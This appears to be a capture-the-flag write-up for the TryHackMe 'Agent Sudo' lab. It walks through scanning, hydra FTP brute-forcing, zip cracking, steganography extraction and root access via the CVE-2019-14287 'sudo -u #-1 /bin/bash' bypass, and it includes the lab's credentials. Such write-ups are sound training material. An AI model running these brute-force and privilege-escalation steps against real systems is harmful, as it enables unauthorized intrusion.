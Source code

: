 ```yaml
---
title: TryHackMe - Agent Sudo
author: Bonface
date: 2021-12-21 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, web, privesc, bruteforce, hydra, suid, john, crack, gobuster]
---
```


# Agent Sudo

You found a secret server located under the deep sea.  
Your task is to hack inside the server and reveal the truth.

#### Task 2: Enumerate
### Task 3: Hash cracking and [brute-force](#bruteforce)

### Task 4: Capture the user flag  
### Task 5: Privilege escalation


## Enumerate
### nmap

### ip = 10.10.55.182
```sh 
nmap -sV -sC -v 10.10.224.246
```

```sh
Scanning 10.10.224.246 [1000 ports]
Discovered open port 22/tcp on 10.10.224.246
Discovered open port 21/tcp on 10.10.224.246
Discovered open port 80/tcp on 10.10.224.246

21/tcp  open     ftp            vsftpd 3.0.3

22/tcp  open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)

80/tcp  open     http           Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

902/tcp filtered iss-realsecure

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

### Http_80

 **ip**  `10.10.55.182`

**To Do List**  
- run gobuster
- surf the web  
- view source code  
- robots.txt  
- gobuster  

```sh
gobuster dir -u http://10.10.55.182 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
### Result
Nothing much 

### surf the web

![robots](/assets/img/Agent_sudo/Pasted%20image%2020241016101306.png)

Let's try spoofing as C and get the same URL with curl.  
-A allows us to spoof the user agent and -L follows any redirects.

![robots](/assets/img/Agent_sudo/Pasted%20image%2020241016101415.png)

Now we have a user `chris` but not sure it's for ssh or ftp.

### ftp-21

# bruteforce
```sh
hydra -L users.txt -P passwords.txt <IP> ftp 
# hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.55.182 ftp
```

![robots](/assets/img/Agent_sudo/Pasted%20image%2020241016101444.png)

## Result
ftp details  
- user name: chris  
- password: crystal  
log in!!!
```sh
ftp chris@10.10.55.182 
```

![robots](/assets/img/Agent_sudo/Pasted%20image%2020241016101527.png)


we got the file, concatenate it:  
![robots](/assets/img/Agent_sudo/Pasted%20image%2020241016101543.png)


Will have to go back and get the images. We run binwalk on the png file which is the most likely to contain some hidden files.

We get these three files:
i
- 365  
- 365.zlib  
- 8702.zip  
- To_agentR.txt  

The zip file is encrypted. We can use john to crack the password:

```sh
zip2john 8702.zip > forjohn
john forjohn.txt
```

![robots](/assets/img/Agent_sudo/Pasted%20image%2020241016101614.png)

Password = alien  
Unzip the files. 
 
You may get errors extracting the files using unzip, if so, use 7z e `zipfile`
```sh
 7z e 8702.zip
 ```  

Use `CyberChef` to decode  
`QXJlYTUx` = `Area51` = password for `steg`.  
We can now use `steghide` on the image that we never used.
```sh
steghide info cute-alien.jpg 
steghide extract -sf cute-alien.jpg 
cat message.txt
```

![robots](/assets/img/Agent_sudo/Pasted%20image%2020241023204845.png)


### Details
With these details and the unused port (22 = ssh), we can try logging in.

Details 
- username: `james`
- password: `hackerrules!`

```sh
 ssh james@10.10.55.182 
# password = hackerrules!
```
![robots](/assets/img/Agent_sudo/Pasted%20image%2020241016101901.png)

# Privilege escalation
Run sudo -l  
![robots](/assets/img/Agent_sudo/Pasted%20image%2020241016101951.png)

Google search for the exploit: CVE:2019-14287  
In the exploit page, we get:  
```sh
 'sudo -u #-1 /bin/bash'
 #Read the root flag. 
```
![robots](/assets/img/Agent_sudo/Pasted%20image%2020241016102023.png)
